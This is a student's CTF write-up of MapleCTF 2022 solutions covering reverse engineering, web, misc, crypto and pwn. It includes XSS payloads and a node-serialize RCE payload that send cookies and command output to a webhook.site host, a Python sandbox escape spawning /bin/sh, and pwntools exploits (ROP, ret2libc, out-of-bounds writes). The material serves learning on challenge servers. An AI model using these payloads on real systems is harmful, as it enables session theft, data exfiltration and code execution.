



# 0x0 Introudction

Maple CTF, which is first CTF event hold by Maple Bacon Team. Because it is the first CTF MapleBacon organzie a CTF event. This event is only open for current university students.

Since most of senior team member and main team member didn't participate CTF (because they are in charge of design problems), I was able to get a very good position when ctf ends.

Since I only knows about pwn, for other category question, I basically OSINT, just search google for similar question and look its writeup.

But I actually learned a lot during the event. **AND**

I get 2nd in individual and 3rd in team. Yeah!!!!!!!!!!!!!!!!!!

<!-- more -->


# 0x1 problems I solved

some challenge are pretty simple and straight forward, so I will only do simple write up.

But some question is very interesting, i highly recommend to take look at these challenge: **pyjail**, **uwu-intewpwetew**, **birbs**, **pwintf**, and most of the crypto question

**rev**
- [plain](#plain)
- [Keys](#keys)
**web**
- [Doot Doot](#Doot-Doot)
- [Color Me](#Color-Me)
- [Poem Me](#Poem-Me)
- [Super Cereal](#Super-Cereal)
**misc**
- [CTF Adventure Land 1](#CTF-Adventure-Land-1)
- [Cutoff](#Cutoff)
- [What Is A Word](#What-Is-A-Word)
- [Pyjail 1 & 2 & 3](#Pyjail)
- [Hijacked!](#Hijacked)
**crypto**
- [Factor Me](#Factor-Me)
- [Too Large to Factor](#Too-Large-to-Factor)
- [Copilot-my-savior](#Copilot-my-savior)
- [Blindfolded](#Blindfolded)
- [Bit by Bit](/2022/01/30/ctf/maplectf2022/maplectf2022-crypto-timing-attack/)
- [Cut and paste](#Cut-and-paste)
- [One two three](#One-two-three)
- [Propagation](#Propagation)
**pwn**
- [memowy cowwuption](#memowy-cowwuption)
- [wetuwn addwess](#wetuwn-addwess)
- [wetuwn owiented pwogwamming](#wetuwn-owiented-pwogwamming)
- [wetuwn to wibc](#wetuwn-to-wibc)
- [uwu intewpwetew](#uwu-intewpwetew)
- [birbs](/2022/01/30/ctf/maplectf2022/maplectf2022-pwn-bruteforcing-canary/)
- [baby pwintf](/2022/02/02/ctf/how-to-utilize-printf-in-pwn/)
- [pwintf](/2022/02/02/ctf/how-to-utilize-printf-in-pwn/)


# 0x2 Reverse

I didn't do much question in reverse because I'm too lazy to look at disassemble code, i just do some pretty straight forward question

## plain

the challenge provide an binary called `plain`

pretty straight forward, the flag is encoded in the binary. Using disassemble to check the code or just `strings plain` to get the flag

```
(pyenv) aynakeya@LAPTOP-T6NBK8L5:~/ctf/maplectf2022/plain$ strings plain 
/lib64/ld-linux-x86-64.so.2
...
maple{binaries_are_not_secret}
...
```

**flag**: maple{binaries_are_not_secret}


## keys

check the binary with a decompiler, you will found that it takes the user input and XOR with a 4 byte array. It takes the xor result and compare with a bigger array. If all the bytes are same, it is the flag we want to know.

So, since X ^ b ^ b == X, we just xor to get the flag.

here is the solution

```
import string
flag = ""
mystery_bytes = [0x4a,0x83,0x04,0xd5]
mystery_str = "27e274b92ff870bd79dc4f9013dc4d8615cb30870ec0349179e75be424dc509d0fdc46e424b776ac37"
mystery_bytes_2 = [int(mystery_str[i:i+2],16) for i in range(0,len(mystery_str),2)]

index = 0
for index,s in enumerate(mystery_bytes_2):
    print(chr(s^mystery_bytes[index & 3]),end="")

print()
```

**flag**: maple{th3_KEY_IS_H4RDC0D3d_1n_THE_B1n4ry}

# 0x3 web

most of web I solved is related to XSS. This is the actually the first time I got an opportunity solve challenges related to XSS.

---

## Doot Doot

server.py
```
@app.route('/oot')
def owo():
    f = request.args.get('oot')
    f = f + '.txt'
    directories.append(f)
    filename = '/'.join(directories)
    try:
        with open(filename, 'r') as filename:
            file_content = filename.read(-1)
    except:
        file_content = "INVALID FACT"
    finally:
        directories.pop()
    return render_template("portfolio.html", oot=file_content)
```

so, just go to /oot?oot=../flag to get the flag

**flag**: maple{Pingu_s4yz_N00t_No0T}

---

## Color Me

pretty straight forward question, it allow you to load arbitray html code into the page. And admin will visit the page.

XSS scripts
```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script><script>$.get("https://webhook.site/7b7b96e8-2831-41da-8997-b7c55b4f75ca?"+document.cookie);</script>
```

**flag**: maple{0ops_i_f0rgot_about_xss}

---

## Poem Me

similar to color me, the main difference is it filter out `<script>` and `</script>`

the solution is also simple, replace `<script>` with `<script nounce="a">`, `</script>` with `</script/>`

```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script/><script a>$.get("https://webhook.site/7b7b96e8-2831-41da-8997-b7c55b4f75ca?"%2Bdocument.cookie);</script/>

```

**flag**: maple{why_m4ke_ur_0wn_5anitizers_wh3n_D0mpur1fy_ex1sts}

---

## Super Cereal

the main exploits here is it use unserialize

server.js
```
// get secret
app.get('/secret', function(req, res) {
  if (req.cookies.profile){
  const str = new Buffer(req.cookies.profile, 'base64').toString();
  const obj = nodeSerial.unserialize(str);
  if (obj.cereal){
    const cereal = escape(obj.cereal);
    res.render('pages/secret', {
    favcereal: cereal
    });
  }
} else {
  res.render('pages/secret', {
    favcereal: ""
    });
  }
});
```

unserialize allow us to execute arbitray javascript code in Node.

So, use this payload and encode it into base64. send this payload to /secret. We will get the flag.
```
{"cereal":"_$$ND_FUNC$$_function (){var ff=\"ggg\";require(\"child_process\").exec(\"cat flag.txt\",function puts(error, stdout, stderr) {require(\"child_process\").exec(\"curl https://webhook.site/7b7b96e8-2831-41da-8997-b7c55b4f75ca?flag=\"+stdout+stderr)});return ff;}()"}
```

**flag**: maple{0H_w41t_you_meant_ser1al_not_cer3al?}

# 0x4 Misc

misc question didn't have much too say, it involve lots of guess work. 

---

## CTF Adventure Land 1

there is a png called map.png, use red plane to review the flag



**flag**: maple{w3lc0m3_70_m4pl3_b4c0n_4dv3n7ur3_l4nd}

---

## Cutoff

this question is also simple, given a image with height 1267, but the actually height is 1400. So, edit PNG header, make the height back to 1400 to get the full flag.

**flag**: maple{very_l0NG_PnG}

---

## What Is A Word

unzip the .docx file and get the flag in image2.png

**flag**: maple{a_w0rd_on3_z1p!}

---

## Pyjail

Pyjail are actually a series similar challenge with different black list.

server.py
```
def main():
    userinput = input('>> ')
    if len(userinput) > 50:
        raise Exception()
    
    # for pyjail 1
    blacklist = ['eval', 'exec', 'rm', 'kill', '+']
    # for pyjail 2
    blacklist = ['eval', 'exec', 'import', 'os', '=', 'txt', 'read', 'dict', ';', ':', '\n', 'flag', 'subprocess', 'write', 'input', '_']
    # for pyjail 3
    blacklist = ['eval', 'exec', 'import', 'os', '=', 'txt', 'read', 'dict', ';', ':', '\n', 'flag', 'subprocess', 'write', 'input', '_', 'getattr', 'globals', 'update']

    for illegal in blacklist:
        if illegal in userinput.lower():
            print("Illegal Char: " + illegal)
            print("Goodbye :)")
            raise Exception()
    else:
        exec(userinput)

```

There is three intended solution for each of the qeustion, however there is also unintended solution

### Intended solution

Pyjail 1: `__builtins__.__dict__['__import__']('os').__dict__['system']('ls')`

Pyjail 2&3: `print([l.strip() for l in open("f"+"lag.tx"+"t")])`

### Unintended solution

enter `breakpoint()`, this will lead to you into a python console, then you can do what ever you want. For example, use `import os;os.system("/bin/sh")` to spawn a shell.


### flag

- maple{welc0m3_to_the_w0rlD_oF_cod3_j4ilz}
- maple{pyth0n_0n3_lInerz_UwU}
- maple{Did_u_kn0w_that_d0lph1ns_sl33p_with_one_eye_open}

---

## Hijacked

the problem give you an `wireshark.pcap` file. Load this file into wireshark. You will find 4 suspicious http request. 4 http request contains a list of three number. 

```
49.26391,-123.21524,94.38
49.26392,-123.21460,94.09
49.26390,-123.21343,92.47
....
```

looks very like latitude and longtitude, so put all the number into an excel and draw the graph (and horizontal flip) to get the flag



**flag**: MapLE{misc_bacon_from_outer_space}

# 0x5 Crypto

honestly, I have no idea how crypto works before this ctf. This ctf kind of give me an expression about how crypto looks like.

---

## Factor Me

a very typical RSA problem, use factordb to get p,q. And then decrypt the message

```
# https://en.wikipedia.org/wiki/RSA_(cryptosystem)
from Crypto.Util.number import bytes_to_long, getPrime, inverse,long_to_bytes

p = 773368062113
q = 827811871697

N= 640203263008444282715761
e= 65537
ciphertext= 400260416204680499515181


phi = (p - 1) * (q - 1)
d = inverse(e, phi)
print(pow(ciphertext, d, N))
print(long_to_bytes(pow(ciphertext, d, N)))
```

**flag**: maple{f@cTor!ng}

---

## Too Large to Factor

according to goole, it is related to **e = 3**, but i don't how it works, so i just copy paste a script from internet and get the flag

```
import gmpy2
from Crypto.Util.number import bytes_to_long, getPrime, inverse,long_to_bytes

n = 85296113154028266649672161860329361439935266228905629388726013424103003229818805929348250297726228216361916145120272570744501496079735410949226284857146260962752588479499367910582240029329267295901611756016118582770290309132799890905930226231742595748717830957810354752447792103653956003395218828964428421661
e = 3
cipher_str = 121098269316542670291503874251201317814247329243208799383594138766421611605510707696480316724191110125699109139761891217594094151254743752917029528490060357300730222261644995695658612386816700954494942529833311406855562210279835749

gs = gmpy2.mpz(cipher_str)
gm = gmpy2.mpz(n)
ge = gmpy2.mpz(e)

root, exact = gmpy2.iroot(gs, ge)
print(long_to_bytes(root))
```

**flag**: maple{d0n7_f0rg37_y0ur_p4dd1n9!}

---

## Copilot my savior

the encryption is pretty simple, xor all the bytes with a key, which is one byte.

So for decryption, just iterate all the possible one byte (from 0 to 255).

```
# Thanks copilot!
def encrypt(file, key):
    f = open(file, "r")
    f_out =open(file + ".enc", "w")
    for line in f:
        for c in line:
            f_out.write(chr(ord(c) ^ key))
    f.close()
    f_out.close()

def decrypt(file):
    content = ""
    with open(file, "r") as f:
        content = f.read()
    print(len(content))
    for key in range(256):
        for c in content:
            print(chr(ord(c) ^ key),end="")
        print()


# encrypt("flag.txt", key)
decrypt("flag.txt.enc")
```

**flag**: maple{c0P1L07_b37R4Y3D_m3}

---

## Blindfolded

this is a quite interesting problem. 

There is very important rule here

a % N + -a % N == N

so to get N, we can use (-1)^65537 = -1, therefore, N should be (-1 % N) + (1 % N), therefore, we can use -1 to get N from the server

and since the server only check for flag not -flag, we can let server to decrypt -flag for us

and the flag should be N + (-flag)

server.py
```
from Crypto.Util.number import getPrime, bytes_to_long, inverse
flag = b"123123"

def encrypt(msg):
	return pow(msg, e, N)

def decrypt(msg):
	return pow(msg, d, N)

flag = bytes_to_long(flag)
p = getPrime(512)
q = getPrime(512)
N = p * q
print(N)
print(p)
print(q)
e = 65537

phi = (p - 1) * (q - 1)
d = inverse(e, phi)
print(d)
encrypted_flag = encrypt(flag)

# Check that decryption works properly
assert(decrypt(encrypted_flag) == flag)

if __name__ == "__main__":
	while True:
		try:
			print("""Here are your options:\n1) Encrypt a message\n2) Decrypt a message\n3) Get the encrypted flag""")
			option = int(input(">>> "))
			if option == 1:
				msg = int(input(">>> "))
				print(encrypt(msg))
			elif option == 2:
				msg = int(input(">>> "))
				if msg == encrypted_flag:
					print("No cheating!")
				else:
					print(decrypt(msg))
			elif option == 3:
				print(encrypted_flag)
		except ValueError:
			print("Something unexpected happened, please try again!")
```

**flag**: maple{d0nt_f0rg37_t0_h@sh!!}

---

## Cut and paste

looking at [server.py](./uploads/cutandpaste_server.py). I realize, i need to construct a payload with `admin:true`. But server ban **admin**, **:**, and **,**.

But since the server encrypt data 1 block by 1 block. We can combine two different block together to get the correct payload

so first use `user:AAAAAAAA,admin:false,passwd:true` and get last block which represent `:true`

Then, use `user:AAAAA,admin:false,passwd:true` and get first block which represent `user:AAAAA,admin`

finally, combine those two block and send back to server, which should be the encryption of `user:AAAAA,admin:true`. This satisfy the rule and give us the flag.

---

## One two three

idk how to explain. please check out this [tutorial](https://ubcctf.github.io/2021/08/beginner-crypto/)

here is my solution
```
lines = []

def score(result):
    score = 0
    for b in result:
        if ord("A") <=b <= ord("Z") or ord("a") <= b <= ord("z"):
            score += 6
            continue
        if b == 32:
            score += 5
            continue
        if 33 <=b <= 47:
            score += 1
            continue
        if b<= 31:
            score -= 2
        if b > 127:
            score -= 8
    return score

with open("secret.enc", "r") as f:
    lines = [bytes.fromhex(line.strip()) for line in f.readlines()]

possible_key_bytes = [i for i in range(256)]
max_score_key = [0 for i in range(128)]

for key_index in range(128):
    maxscore = -10000000
    for key in possible_key_bytes:
        encoded_bytes = [b[key_index] for b in lines if key_index < len(b)]
        s = score([x ^ key for x in encoded_bytes])
        if s > maxscore:
            maxscore = s
            max_score_key[key_index] = key

for line in lines:
    ba = bytearray(line)
    key_index = 0
    for i in range(len(ba)):
        ba[i] = ba[i]^max_score_key[key_index]
        key_index +=1
    print(ba)
```

---

## Propagation

similar to cut and paste [server.py](./uploads/propagation_server.py), but instead of encrypt message block by block using same key. it xor with the previous block before encryption. This is a technique called **Block chaining**

the main idea here is since it allow us to enter IV, we can make our own string `AA:AA,admin:true` and xor it with it self, which result in `\x00 * 16`. 

once we send our payload to server, server will return the encryption, which is block[2] = `encrypt("AA:AA,admin:true"^"AA:AA,admin:true"^block[1])`

so, if we send `encrypt("AA:AA,admin:true"^"AA:AA,admin:true"^block[1])` to the server with IV of `"AA:AA,admin:true"^block[1]`.

The server will decrypt our payload by `decrypt(encrypt("AA:AA,admin:true"^"AA:AA,admin:true"^block[1])) ^ "AA:AA,admin:true"^block[1] ` 

which is `"AA:AA,admin:true"^"AA:AA,admin:true"^block[1] ^ "AA:AA,admin:true"^block[1]` == `"AA:AA,admin:true"`. 

And therefore, we bypass the check.


here is my solution

```
from pwn import *
import os
# context.log_level = 'debug' # uncomment to enable debugging
# r = remote('localhost', 1337)
r = remote('challenges.ctf.maplebacon.org', 32002)

def register_user(username, password):
    print(f"[Client] Registering user: {username} | passwd: {password}")
    r.sendline(b"1")
    r.recvuntil(b"Input your username:")
    r.sendline(username)
    r.recvuntil(b"Input your password:")
    r.sendline(password)
    debug_stuff = r.recvuntil(b"Here's").decode()
    for line in debug_stuff.split("\n")[:-1]:
        print(line)

    r.recvuntil(b"when we add the login feature: ")
    token = r.recvline().decode()
    ctxt, iv = token.split(",")
    r.recvuntil(b">")
    return ctxt, iv

def admin_login(ctxt, iv):
    token = ctxt + "," + iv
    print("[Client] Attempting login")
    r.sendline(b"2")
    r.recvuntil(b"token: ")
    r.sendline(token.encode())
    debug_stuff = r.recvuntil(b"Wel").decode()
    for line in debug_stuff.split("\n")[:-1]:
        print(line)

    r.recvuntil(b">")

def xor(a,b):
    assert len(a) == len(b)
    return bytes([x ^ y for x,y in zip(a,b)])

def xor_hex(a,b):
    a,b = bytes.fromhex(a),bytes.fromhex(b)
    return bytes([x ^ y for x,y in zip(a,b)]).hex()


# Y encrypt
# user:AAAAAAA,adm | in:false,passwd: | AA:AA,admin:true
# Y[2] = en("AAAAA,admin:true"^X[1]^N)


mask = b'AA:AA,admin:true'
payload1 = b"AAAAAAA"
payload2 = b'AA:AA,admin:true'
ctxt,iv = register_user(payload1,xor(payload2,mask))
admin_login(ctxt[32*2:32*3],xor_hex(ctxt[32*1:32*2],mask.hex()))
```

# 0x6 PWN

## memowy cowwuption

the exploits is very straight forward, fgets() will cause an overflow. So we can just overwrite id.

```
void vuln() {
    char* name = malloc(64);
    int* id = malloc(sizeof(int));

    puts("Hello, what is your name?");

    fgets(name, 0x64, stdin);

    for (int i = 0; i < 64; i++) {
        if (name[i] == '\n') {
            name[i] = '\0';
        }
    }

    if (*id == ADMIN_ID) {
        win();
    } else {
        printf("Sorry %s, your ID (%x) does not match the admin ID (%x)\n", name, *id, ADMIN_ID);
    }
}
```

exp.py 
```
io = start()

payload = flat({
    # 0x38: 0,
    0x50: 0xdeadbeef,
},filler=b'A',length=0x64)

io.sendafter(b"Hello, what is your name?\n",payload)

io.interactive()
```

**flag**: maple{ovewwwiting_stack_vawiabwes}

---

## wetuwn addwess

check binary, No PIE enabled. So just overwrite RIP to win to get the flag

```
void win() {
    puts(flag);
}

int main() {
    alarm(60);
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    char name[32];

    FILE* flagfile = fopen("flag.txt", "r");

    if (flagfile == NULL) {
        puts("Error: could not read flag file");
        exit(1);
    }

    fgets(flag, FLAG_LEN, flagfile);

    puts("What's your name?");
    gets(name);
    printf("Hello %s! Let's go to %p\n", name, __builtin_return_address(0));

    return 0;
}
```

exp.py

```
io = start()

stack = flat({
    0x30+8: 0x00401216,
},filler=b'\x00',length=0x40)

io.sendlineafter(b"What's your name?", stack)

io.interactive()
```

**flag**: maple{r3turn_t0_w1n}

---

## wetuwn owiented pwogwamming

change vuln with corresponding rop chain
1. ret - just want to ret
2. A() - make uwu = true
3. B() - make owo = true
4. pop rdi,ret - put 0xdeadbeef into first parameter of the function
5. 0xdeadbeef
6. C() - call A(0xdeadbeef) to make rawrxd = true
7. win() - get the flag


```
char flag[FLAG_LEN];
bool rawrxd = false;
bool uwu = false;
bool owo = false;

void win() {
    // print flag
}

void A() {
    uwu = true;
    puts("uwu");
}

void B() {
    if (uwu) {
        owo = true;
        puts("owo");
    }
}

void C(int secwet) {
    if (secwet == 0xdeadbeef) {
        rawrxd = true;
        puts("rawrxd");
    }
}

void vuln() {
    char input[100];

    puts("uwu owo rawrxd");
    fgets(input, 0x100, stdin);
}

int main() {
    alarm(60);
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    vuln();

    return 0;
}
```

my exp.py
```
io = start()

ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = exe_rop.find_gadget(['pop rdi', 'ret'])[0]

stack = flat({
    0x70+8: [
        ret_addr,
        exe.sym["A"],
        exe.sym["B"],
        pop_rdi_ret_addr,
        0xdeadbeef,
        exe.sym["C"],
        exe.sym["win"],
    ],
},filler=b'\x00',length=0x100)

io.sendlineafter(b"uwu owo rawrxd", stack)

io.interactive()
```

---

## wetuwn to wibc

this is a very classic **ret-2-libc** question. If you want to see more about ret2libc, check out this [oversight](/2021/10/09/ductf2021-pwn-oversight/) challenge

first, lets check mitigations. We can see all the protection has enabled. including canary. 

```
#    Arch:     amd64-64-little
#    RELRO:    Full RELRO
#    Stack:    Canary found
#    NX:       NX enabled
#    PIE:      PIE enabled
```

lets take look at the [source code](./uploads/wetuwn-to-wibc.c).

There is a very trivial bug here, is it didn't check for the upper bound. So, we can leak canary here. 

Moreover, after getting the canary value, we can just use `gets` to overwrite the whole stack.

Since we take control of the whole stack, we just write the canary using the canary value we get from previous step

```
if (input >= 0 && input < sizeof uwus) {
    printf("This UwU'er has UwU'ed %llu times!\n", uwus[input]);
} else {
    puts("Error: index out of bounds.");
}
...
...
gets(comment);

```

part of exp.py

```
io = start()

io.sendlineafter(b"Index: ", b"47")
io.recvuntil(b"This UwU'er has UwU'ed ")
libc.address = int(io.recvuntil(b" times!\n", drop=True)) - libc.libc_start_main_return

io.sendlineafter(b"Index: ", b"43")
io.recvuntil(b"This UwU'er has UwU'ed ")
canary = int(io.recvuntil(b" times!\n", drop=True))

io.sendlineafter(b"Index: ", b"-1")

rop = ROP(libc)

payload = flat({
    0x108: canary,
    0x110 + 0x8: [
        rop.find_gadget(["ret"])[0],
        rop.find_gadget(["pop rdi", "ret"])[0],
        next(libc.search(b"/bin/sh\x00")),
        libc.sym['system'],
        ],
    })

io.sendlineafter(b"Thanks for using my UwU Counter! What did you think?\n", payload)

io.interactive()
```

**flag**: maple{f1y_m3_t0_th3_m00n_4nd_l3t_m3_pl4y_am0ngu5}


## uwu intewpwetew

a very fun problem. it implement a buggy interpreter of uwu language - [uwu](https://esolangs.org/wiki/UwU)

[uwu-intewpwetew.c](./uploads/uwu-intewpwetew.c)

all the mitigation protection has open as expected
```
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
```

lets take look at some bugs, firstly, it check the upper bound, but not lower bound. We can see here the pointer is never gonna large than `DATA_LEN` if it is negative. 

This allow us to read the value above the stack variable

```
case 'o':
    pointer--;
    if (pointer > DATA_LEN) {
        printf("Error: out of bounds\n");
        print_remaining_and_exit(input, i);
    }
break;
```

The second bug is it didn't check for out of bound when read and write value.

```
case '@':
    printf("\npointer: %d\ndata: %d\n", pointer, data[pointer]);
    break;
case '>':
    printf("\nInput: ");
    scanf(" %d", &data[pointer]);
    break;
```

So, lets combine those two bug. first, lets move the variable pointer to pointer's address (where pointer is on the stack) . 

Then, use write pointer's value to RIP offset,

finally. read RIP address and write RIP address to function win. After execution finish, the binary will jump to `win` and print out the flag

part of my exploit.py
```
class uwu():
    right = "OwO"
    left = "owo"
    read = "@w@"
    write = ">w<"
    plus = "UwU"
    minus = "QwQ"
    def __init__(self):
        self.instructions = []

    def add(self,*args):
        self.instructions.extend(args)
    
    def add_list(self,args):
        self.instructions.extend(args)
    
    def output(self):
        return " ".join(self.instructions)

main_addr = exe.sym["main"]
log_print("main addr", hex(main_addr))
vuln_addr = exe.sym["vuln"]
log_print("vuln addr", hex(vuln_addr))
win_addr = exe.sym["win"]
log_print("win addr", hex(win_addr))

log_print(hex(vuln_addr-win_addr))
# payload = uwu()
# payload.add(uwu.right,uwu.plus,uwu.right,uwu.plus,uwu.right,uwu.plus,)
# print(payload.output())

payload = uwu()
# 4 byte padding
payload.add_list([uwu.left]*((0x424-0x410)//4 -1))
payload.add(uwu.read)
payload.add(uwu.write)
log_print("rip padd offset", (0x410+0x8)//4)
payload.add(uwu.read)
payload.add(uwu.write)
log_print(payload.output())


io = start()
io.sendlineafter(b"Send me your cowode:\n",payload.output().encode())
io.sendlineafter(b"Input: ",str((0x410+0x8)//4).encode())
io.recvuntil(b"data: ")
main_rip_address = int(io.recvuntil(b"\n")[:-1:])
log_print("main rip address",main_rip_address,hex(main_rip_address & 0xffffffff))
win_real_addr = (main_rip_address & 0xfffff000) | (win_addr & 0xfff)
log_print("win_real_addr",win_real_addr,hex(win_real_addr))
io.sendlineafter(b"Input: ",str(win_real_addr).encode())

log_print("flag",io.recv())
```

**flag**: maple{nyo_wespect_fow_boundawies}